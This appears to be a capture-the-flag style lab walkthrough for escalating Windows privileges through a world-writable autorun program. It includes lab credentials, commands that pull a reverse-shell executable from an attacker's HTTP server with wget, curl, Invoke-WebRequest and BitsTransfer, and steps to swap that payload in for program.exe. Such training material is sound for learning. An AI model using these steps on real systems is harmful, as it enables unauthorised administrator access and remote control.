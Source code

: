 # Registry Escalation - Autorun

INITIAL ACCESS:

Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:

username: user
password: password321

For any administrative actions you might take, your credentials are:

username: TCM
password: Hacker123

Use the following `xfreerdp` command to initiate the RDP session:

```jsx
xfreerdp3 /v:10.10.222.119 /u:user /cert:ignore /sec:rdp
```

![image](https://github.com/user-attachments/assets/a7b8ac95-7f19-4c7f-a290-f5ed3f02bbb2)


Once connected to the victim machine, we need to serve the necessary tools for analysis. Start a simple HTTP server on your Kali 
Then, download the [Microsoft Sysinternals Suite](https://www.majorgeeks.com/mg/get/microsoft_sysinternals_suite,1.html) on the victim machine using your browser or via PowerShell.

```jsx
python -m http.server --bind 10.6.42.239 8999
```
![image](https://github.com/user-attachments/assets/0b389689-c449-4eae-b63d-c2309c8b16ff)


### 🔎 DETECTION

After transferring the tools, follow these steps to detect suspicious behavior:

1. Unzip the downloaded folder on the victim desktop.
2. Navigate to `Autoruns` and execute the following:

```jsx
C:\Tool PATH> Autoruns64.exe

```

1. In Autoruns, go to the **Logon** tab.
2. Observe an entry labeled **"My Program"**, pointing to the executable:

![image](https://github.com/user-attachments/assets/5b99b329-ed40-444b-a734-f355cc0b75fa)


To analyze permissions on this file, run:

```jsx

C:\Tool PATH> accesschk64.exe –wvu "C:\Program Files\Autorun Program\program.exe"
```

![image](https://github.com/user-attachments/assets/7ee47848-9ed2-4df5-9ea9-07f00d95d019)


From the output, you'll notice that the **Everyone** group has **FILE_ALL_ACCESS** permissions on `program.exe`—this is a security risk, as it allows any user to modify or replace the executable.

## 💥 EXPLOITATION (Privilege Escalation)

Now, let’s exploit the misconfigured permissions by replacing `program.exe` with a reverse shell payload.

1. Use a **reverse shell generator** (e.g., [Reverse Shell Generator](https://www.revshells.com/)) with the following settings:
    - **Payload**: `MSFVenom Windows Stageless Reverse TCP`
    - **Attacker IP**: `10.6.42.239`
    - **Port**: `your chosen port`

![image](https://github.com/user-attachments/assets/5e923bca-8636-4d1c-8511-5e316fbb6778)


1. Once the `.exe` payload is created (e.g., `reverse.exe`), transfer it to the victim machine using one of the following methods:

![image](https://github.com/user-attachments/assets/93dfd456-c98b-4a8d-962d-8dd65e1c28e8)


```jsx
wget http://10.6.42.239:8999/reverse.exe
curl -o Program.exe http://10.6.42.239:8999/reverse.exe
Invoke-WebRequest -Uri "http://10.6.42.239:8999/reverse.exe" -OutFile "reverse.exe"
Start-BitsTransfer -Source "http://10.6.42.239:8999/reverse.exe" -Destination "Program.exe"
```

Rename `reverse.exe` to program.exe and place in ‘C:\Program Files\Autorun Program’.

Now simulate a new session. Log off and then log back in using the **administrator account** (TCM).

Kali VM:

![image](https://github.com/user-attachments/assets/dd3e1302-94b8-474d-8410-65c8cd952691)


When the system executes the startup program (which now contains your payload), it will trigger the reverse shell and grant access with **administrator privileges** on your Kali machine.
